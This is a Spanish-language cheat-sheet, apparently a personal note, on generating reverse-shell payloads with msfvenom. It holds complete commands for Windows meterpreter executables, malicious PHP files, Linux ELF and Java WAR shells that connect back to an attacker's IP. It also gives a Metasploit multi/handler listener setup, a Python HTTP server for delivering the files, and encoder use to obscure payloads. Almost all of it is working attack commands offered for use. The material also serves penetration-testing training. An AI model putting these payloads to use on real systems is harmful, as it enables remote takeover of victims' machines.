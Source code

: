 #payload #explotacion #virus #creaciondepayloads

------------
*Msfvenom* es una herramienta de Metasploit Framework utilizada para generar payloads y encoders. Aquí están los comandos más utilizados:

- Payload de uso con sesión de escucha mediante multihandler de meterpreter de Mestaesploit 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IpAtacante> LPORT=<PuertoAatacante> -f exe -o payload.exe
```

- Puesta en Marcha del Servidor de Descarga del Archivo
```bash
python3 -m http.sever 80
```

- Puesta en escucha:
```bash
use multi/handler
show options
set LHOST <IpAtacante>
set LPORT <PuertoAtacante>
set PAYLOAD windows/x64/meterpreter/reverse_tcp # Debe ser el mismo payload del cual se configuro en el virus de MsfVenom
run
```


##### - Si queremos mas información de puesta en escucha con Metaesploit podemos mirar a [[3. Msf Venom Non-Staged]]
##### - Si queremos una sesion mediante el listener de Netcat podemos mirar a [[2. MsfVenom - Sesion de Shell - NetCat]]

- Fichero Malicioso php 
```bash
msfvenom -p php/reverse_php LHOST=<IPatacantes> LPORT=<PuertoAtacante> -f raw > pwned.php # Unavez ganado el acceso enviarnos una shell a otro puerto para que vaya bien la conexion 

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.19 LPORT=443 -o pwned.php y la conexion con Multi/handler # Uso de metasploit, sin emabargo no lee comandos de linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus  # Este es el ideal para pasar de una shell de nc a una shell de meterpreter, nos lo descargamos a traves de un servidor de python
```

- Fichero Malicioso java

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IpAtacante> LPORT=443 -f war -o reverse1.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IpAtacante> LPORT=443 -f war -o reverse2.war # Funciona para servidores apache tomcat
```

---
### Comandos Comunes

#### 1. **Generar un Payload Básico**

Para generar un payload básico, usa el siguiente formato:

`msfvenom -p [payload] [opciones] -f [formato] -o [nombre_archivo]`

**Ejemplo:**

Para crear un payload de tipo `reverse_tcp` para Windows:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe`

- `-p [payload]`: Especifica el tipo de payload.
- `LHOST`: Dirección IP del atacante.
- `LPORT`: Puerto en el que el atacante escuchará.
- `-f [formato]`: Formato del archivo (ej. exe, elf, etc.).
- `-o [nombre_archivo]`: Nombre del archivo de salida.

#### 2. **Listar Payloads Disponibles**

Para ver todos los payloads disponibles:

`msfvenom -l payloads`

#### 3. **Listar Formatos Disponibles**

Para ver todos los formatos de salida disponibles:

`msfvenom -l formats`

#### 4. **Codificar un Payload**

Para codificar un payload con un encoder:

`msfvenom -p [payload] [opciones] -e [encoder] -f [formato] -o [nombre_archivo]`

**Ejemplo:**

Codificar un payload con el encoder `x86/shikata_ga_nai`:


`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_payload.exe`

- `-e [encoder]`: Especifica el encoder a usar.

#### 5. **Ejecutar el Payload en la Consola**

Para ver el payload generado en la consola sin guardarlo en un archivo:


`msfvenom -p [payload] [opciones] -f [formato]`

**Ejemplo:**

Para generar y mostrar un payload `reverse_tcp` en formato hexadecimal:


`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c`

#### 6. **Obtener Ayuda**

Para obtener ayuda sobre los comandos y opciones de `msfvenom`:

`msfvenom -h`